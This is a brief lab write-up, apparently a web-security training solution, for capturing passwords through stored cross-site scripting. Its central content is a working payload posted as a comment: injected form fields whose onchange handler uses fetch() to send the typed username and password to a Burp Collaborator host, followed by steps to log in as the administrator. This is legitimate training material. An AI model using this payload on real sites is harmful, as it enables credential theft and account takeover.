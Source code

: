 # Lab: Exploiting cross-site scripting to capture passwords

Open Burp Collaborator and copy the subdomain url.

Post a comment with the payload:
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://<subdomain>.burpcollaborator.net',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```


Poll the collaborator and inspect the http request for credentials. Login as administrator to complete the lab.